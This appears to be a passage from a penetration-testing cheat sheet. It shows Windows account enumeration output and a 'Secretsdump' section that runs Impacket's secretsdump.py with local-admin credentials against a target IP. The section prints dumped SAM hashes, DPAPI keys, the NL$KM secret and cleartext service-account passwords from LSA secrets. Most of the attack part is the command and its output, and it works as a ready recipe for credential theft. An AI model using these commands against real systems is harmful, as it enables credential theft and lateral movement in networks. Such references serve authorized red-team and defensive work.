 ```plain
Found user: helsinki, uid = 1115
Administrator (500)/FullName:
Administrator (500)/UserComment:
Administrator (500)/PrimaryGroupId: 513
Administrator (500)/BadPasswordCount: 0
Administrator (500)/LogonCount: 24
Administrator (500)/PasswordLastSet: 2020-03-18 10:55:43.427441
Administrator (500)/PasswordDoesNotExpire: False
Administrator (500)/AccountIsDisabled: False
Administrator (500)/ScriptPath
[...SNIP...]
```

### Secretsdump - Performs various techniques to dump secrets

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="secretsdump.mp4"/%}}

#### Dump NTDS

Local Administrator privileges required, can be used against every system you're local administrator at.

```plain
$ secretsdump.py JohnDo_LA:'Welkom123'@10.10.10.10                                                                                                     
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x20eb60c12345678909b2e656af
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
serverlocaladmins:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[...SNIP...]
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3e54c484e6abd41234263bc70b11d540f1d0
dpapi_userkey:0x10ab5aed123456789c3870d64008f56836183e
[*] NL$KM 
NL$KM:a9288fd4f741d6d4af0c45b0831234567890b13c68f556c62f4e2cec28c4c14d222e546e0cc5664be6fa135ba90e6293512106ae2
[*] _SC_88MMB_VRT_DHF_HOMX 
SA_LOCAL_SERVICE@INFOSEC.NL.local:ThisIsAStrongPassword?
[*] _SC_88MMB_VRT_DHF_HOUL 
SA_LOCAL_SERVICE@INFOSEC.NL.local:ThisIsAStrongPassword?
[*] _SC_88MMB_VRT_LHF_HOML 
SA_LOCAL_SERVICE@INFOSEC.NL.local:ThisIsAStrongPassword?
[*] _SC_88MMB_VRT_LHF_HOUI 
SA_LOCAL_SERVICE@INFOSEC.NL.local:ThisIsAStrongPassword?
[*] Cleaning up... 
```

